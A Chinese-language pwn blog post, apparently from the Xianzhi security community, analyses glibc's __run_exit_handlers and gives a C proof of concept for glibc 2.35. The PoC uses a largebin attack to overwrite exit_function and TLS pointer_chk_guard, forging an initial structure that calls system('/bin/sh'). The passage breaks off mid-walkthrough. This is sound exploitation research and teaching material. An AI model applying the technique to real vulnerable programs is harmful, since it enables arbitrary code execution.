# 菜鸡pwn手对于exit漏洞的探索-先知社区

> **来源**: https://xz.aliyun.com/news/18152  
> **文章ID**: 18152

---

### 前言：

最近在学习exit相关利用技巧时，读源码的时候发现大多数师傅总结出的调用链都是 `exit->__run_exit_handlers->tls_call_dtors`，然后去劫持其中在调用\_dl\_fini时使用的结构体中的跳表

但我在读源码时发现其实不需要进入tls\_call\_dtors这个函数，在其内部就有对跳表的调用：



所以就写这样一篇文章分享下我的理解

**exit函数调用到dl\_fini路径：**

exit --> \_\_run\_exit\_handlers --> [取 exit\_funcs 结构体里的 initial 数组+0x18偏移位置的加密指针] -> [用fs:[0x30]内容解密指针] --> \_dl\_fini

可以注意到，在能够泄漏到libc地址且能够任意地址写堆地址的情况下，是有机会劫持对于\_dl\_fini的调用的，而且由于run\_exit\_handler函数中这个跳表调用是在一个无限循环里的，迭代变量也是 initial 结构体中的成员，所以只要篡改exit\_functions的内容，控制其取到的initial指针指向可控区域，就能做到对这个函数的行为的完全控制。

### **效果：**

能够进行无限次的自由的函数调用，其中第一参数或者第二参数可控

### 要求：

① 能够任意地址分配并且可以自由的show

② 能够任意地址写入chunk地址的同时也能做到篡改/泄露TLS结构体内容

### **源码分析：**

#### **涉及结构体：**

```
f指针：
struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union
      {
    void (*at) (void);
    struct
      {
        void (*fn) (int status, void *arg);
        void *arg;
      } on;
    struct
      {
        void (*fn) (void *arg, int status);
        void *arg;
        void *dso_handle;
      } cxa;
      } func;
  };

cur指针：
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };
```

正常exit(0)后进入到的\_\_run\_exit\_handlers函数中：

> 这里会经过各种判断(使用exit\_function指针)走分支，最终会使用虚表(有加密的)跳转调用\_dl\_fini函数

这个函数中有多次对一个结构体指针进行操作：



而这个\*\*listp的来源：



这个就是libc中常见的常量指针



其中最关键的指针转移：



这里的 \*cur 指针就是截图里的 initial 常量指针

很类似于一些IO结构体的机制，这里会根据结构体中的内容进行流程的分化，最终使用 initial 指针里的函数指针进行进行跳转

进入run\_exit\_handler函数后：

走完调用\_\_call\_tls\_dtors函数的流程后



进入一个死循环后先将 exit\_function 常量上的 initial 指针转载到 cur 指针中，然后检查cur是否非空

> 注意这里的迭代变量 cur->idx 就是从initial结构体的内容中取出来的

之后会检查 cur->idx，也就是作为迭代变量的索引值

一般情况下这里是1，即遍历1次，如果更大，则从大的idx开始遍历

所以如果顺便把这个也控制了，那么这个循环逻辑就可以循环无限次，而且每次执行的函数和部分参数都是可控的

之后就会走到分支逻辑中



对cur指针取偏移后重定义为f指针 (这个结构体貌似是一个内嵌结构体的状态，所以可以通过取偏移取到其部的子结构体)

> 这里的f指针是和cur指针做偏移取的，所以这里的 f 的成员都是initial结构体的内容，包括用于菜单选择的 f->flavor

进入遍历之后首先使用 exit\_function结构体的第一个成员 flavor 选择分支，选到后进一步进行调用

比如第一个有PTR\_DEMAN的分支：

```
        case ef_on:
          onfct = f->func.on.fn;
          arg = f->func.on.arg;
#ifdef PTR_DEMANGLE
          PTR_DEMANGLE (onfct);
#endif
          /* Unlock the list while we call a foreign function.  */
          __libc_lock_unlock (__exit_funcs_lock);
          onfct (status, arg);
          __libc_lock_lock (__exit_funcs_lock);
          break;
```

这里会先进行一些传参，比如第一个参数 onfct ，就是来自 f->func.on.fn，可以跟踪下其定义：

(这个结构体就是initial指针)

> 能看出这里的 传参来源 就是initial结构体的内容

这里的 onfct 就是要使用的函数指针，调用顺序：**PTR\_DEMANGLE (****onfct****)** 解密函数指针，然后 \*\*onfct(\*\*status, **arg)** 调用函

> 其中 arg 参数也是 initial内容 传参

但是要注意的是，这里的onfct传参在内存里是加密后的



PTR\_DEMANGLE 就是用于解密函数指针的宏定义：



> 是一个右移+异或的简单算法

但是可惜的是用于异或的key是TLS里的 pointer\_chk\_guard，这点有两种解决方式：  
**①：设法largebin attack把堆地址写到pointer\_chk\_guard(一般来说堆地址好泄露些)，然后用堆地址计算**



拿到这个值后，就可以在脚本中写逆运算算法去加密目标函数的指针

**②：如果有方便好用的show，而且可以任意地址分配，可以尝试分配到initial结构体处的chunk**

如果能分配到initial上的chunk，可以尝试把其中原有的加密后的函数指针泄露出来，再与dl\_fini函数真实地址进行计算，算出pointer\_chk\_guard，然后就可以计算应该写入的加密后的函数地址了

综合上述分析，这里无论是能够任意分配到这个位置的chunk，还是能够通过在 exit\_functions 常量上写入chunk地址，只要能够让\_\_run\_exit\_handlers函数拿到的initial结构体内容可控，都可以完全控制住这里的传递参数，以及迭代变量和用于选择分支的变量，也就可以完全的控制这个函数的行为

### **利用尝试：**

这里我尝试用高版本常用的largebin attach模拟一次攻击流程：  
**poc：**

> 以 `glibc2.35版本 + f->flavor为4 + largebin attach在 exit_function、TLS结构体各写一个chunk地址` 的情况为例

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


void* p[0x10];
uint64_t rol(uint64_t num, unsigned int shift) {
    return (num << shift) | (num >> (64 - shift));
}

int main()
{
    puts("try");
    //用于进行攻击的伪造initial结构体

    p[0] = malloc(0x460);
    malloc(0x10);
    p[1] = malloc(0x450);
    malloc(0x10);
    p[2] = malloc(0x510);
    malloc(0x10);
    p[3] = malloc(0x500);
    malloc(0x10);
    free(p[0]);
    free(p[2]);


    //先泄漏arena地址,拿到libc地址
    long long int libc_base = (long long int)(*(void **)p[0]) - 0x21ace0;
    printf("libc_base ==> %p
", libc_base);
    //然后泄漏堆地址
    long long int heap_addr = (long long int)(*(void **)p[2]);
    //后面成功篡改TLS->pointer_chk_guard为堆地址后的假key
    long long int fake_key = heap_addr + 0x490;
    printf("fake_key ==> %p
", fake_key);
    long long int exitfunc_addr = libc_base + 0x21a838;
    long long int TLS_addr = libc_base + 0x3a3768;
    printf("&exit_function ==> %p
", exitfunc_addr);
    printf("&TLS ==> %p
", TLS_addr);


    long long int puts_addr = libc_base + 0x80e50;
    long long int system_addr = libc_base + 0x50d70;
    long long int bin_sh = libc_base + 0x1d8678;
    long long int GNU_s = libc_base + 0x3c32b4;
    //伪造initial结构体
    long long int fake_initial[] = { \
        4, 0xdeadbeef, 0xdeadbeef, 0x7777, \
        4, rol(system_addr^fake_key, 0x11), bin_sh, 0x7777, \
        4, rol(puts_addr^fake_key, 0x11), GNU_s, 0x7777, \
        4, rol(puts_addr^fake_key, 0x11), GNU_s, 0x7777};
        //idx写为3,后续的三行分别是第一、二、三个cur->fns
    memcpy(p[3], fake_initial, sizeof(fake_initial));

    //将p0、p2置入largebins
    malloc(0x600);
    free(p[1]);
    free(p[3]);
    //篡改两条largebins链表fd链头的bk_nextsize指针
    *((long long int*)((char *)p[0] + 0x18)) = TLS_addr-0x18;
    *((long long int*)((char *)p[2] + 0x18)) = exitfunc_addr-0x20;

    //阻隔p3和topchunk,同时将p1、p3也置入largebin
    malloc(0x600);

    //调用__run_exit_handlers触发调用链
    exit(0);

    return 0;
```

首先是基本的chunk布局

准备好四个chunk，分别是两条largebins中的两个chunk：



释放两个chunk放进unsortedbin然后泄露libc地址与heap地址：

通过堆地址可以得到\_\_run\_exit\_handlers中用于作为加密key的堆地址，在后面的largebin attack中会将其写到pointer\_chk\_guard

然后用key计算加密后的函数指针并布置好要写的chunk：





放置好两条largebins链表备用，一条用于修改TLS->pointer\_chk\_guard，一条用于修改exit\_function



然后准备第二轮unsortedbin，并篡改两个largebin头的bk\_nextsize指针：





接下来只要将第二轮的unsortedbin放进largebins就可以同时篡改两个指针了

exit\_function指向p3，现在\_\_run\_exit\_handlers函数取到的initial就是由我们伪造的内容了



TLS的pointer\_chk\_guard也被篡改为堆地址：

此时就可以让程序调用 exit->\_\_run\_exit\_handlers 去触发布置好的initial结构体了：



成功让其取到的initial结构体指针指向chunk



cur->idx被赋值为chunk的size

这里在libc源码里对应：  
即while循环中对迭代变量也是对cur-fns[idx]的索引进行检查



> 对应：(这里是从最大索引开始往前遍历)

这里由于无法控制cur->idx，它会直接变成chunk的size，一般至少0x400以上，所以这个地方很有可能会多出非常多次循环，但是因为这里会使用 f->flavor 进行分支选择，而f->flovar又只有是0-4的时候才会触发对initial内函数指针的调用，其中为0、1时是直接break：



因为用chunk作为伪造initial时，多余的idx终归是会定位到堆块内部，闲置堆块内部如果不是人为干扰，大概率会是一些残留指针和0，所以基本不会干扰到布置好的函数的调用

等cur->idx减少到3时，就会依次处理布置好的几个指针：  
这里以两个puts和一个system为例：

走完多余的循环，cur->idx就会减少到3，之后的一次遍历就会遍历到前面放置的最后一个结构体：

 第一个longlong值也就是f.flavor设置为4，进入case ef\_cxa分支：

